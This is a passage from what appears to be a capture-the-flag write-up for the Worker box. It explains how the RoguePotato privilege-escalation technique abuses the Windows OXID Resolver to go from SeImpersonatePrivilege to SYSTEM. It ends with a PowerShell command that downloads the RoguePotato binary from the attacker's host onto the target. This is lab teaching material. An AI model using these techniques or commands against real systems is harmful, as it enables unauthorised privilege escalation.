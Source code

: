 
In May 2020, [@splinter_code](https://twitter.com/splinter_code) and
[@decoder_it](https://twitter.com/decoder_it) released RoguePotato:

> No more JuicyPotato? Old story, welcome RoguePotato!  
> Checkout our blog post by
> [@decoder_it](https://twitter.com/decoder_it?ref_src=twsrc%5Etfw) and
> me.<https://t.co/9lH6MdVjsb>
>
> — Antonio Cocomazzi (@splinter_code) [May 11,
> 2020](https://twitter.com/splinter_code/status/1259862885112729601?ref_src=twsrc%5Etfw)

[The blog post](https://decoder.cloud/2020/05/11/no-more-juicypotato-old-
story-welcome-roguepotato/) provides a ton of detail. But the TL;DR is that I
can still go from `SeImpersonatePrivlege` to system. I did a blog post showing
[RoguePotato on Remote](/2020/09/08/roguepotato-on-remote.html) last
September, but this was the first box I actually had used it on.

### What’s New In Rogue?

Part of the Potato attack is to send a request to the OXID Resolver which runs
as part of the `rpcss` service and listens on TCP 135. Prior to Windows 10
1809 / Server 2019, the invoker could specify that they wante to actually
contact the OXID Resolver on a different port, which allows earlier Potatoes
like JuicyPotato to set up a fake OXID Resolver and handle that request.
That’s what the `-l` parameter is - What port should the fake OXID Resolver
listen on. For example, from my [writeup for Json](/2020/02/15/htb-
json.html#priv-3-userpool--system), I’m telling the fake OXID Resolver to
listen on localhost:9001:

![image-20210129104048450](https://0xdfimages.gitlab.io/img/image-20210129104048450.png)

Now in modern Windows OXID Resolutions can only happen on TCP 135, and the
legit service is already running there. But the resolution is not limited to
the local machines. So now I pass RoguePotato my IP, and it will send the OXID
Resolver request to that IP on TCP 135. I have two options to handle this. The
simplest is to use something like `socat` to tunnel that request right back to
the Windows host where RoguePotato is listening. If the box where RoguePotato
is run is blocking in bound connections or can’t be reached like that, the RP
repo also has an exe that can be run on a machine I control.

![image-20210129110002264](https://0xdfimages.gitlab.io/img/image-20210129110002264.png)

Either way, RoguePotato is able to get the request to the Fake OXID Resolver
on TCP 135.

### Initial Attempt

I’ll grab a copy of the release binary from
[GitHub](https://github.com/antonioCoco/RoguePotato/releases/download/1.0/RoguePotato.zip),
and upload it to Worker using a local Python webserver and PowerShell:

    
    
    c:\ProgramData>powershell -c wget http://10.10.14.24/RoguePotato.exe -outfile RoguePotato.exe
    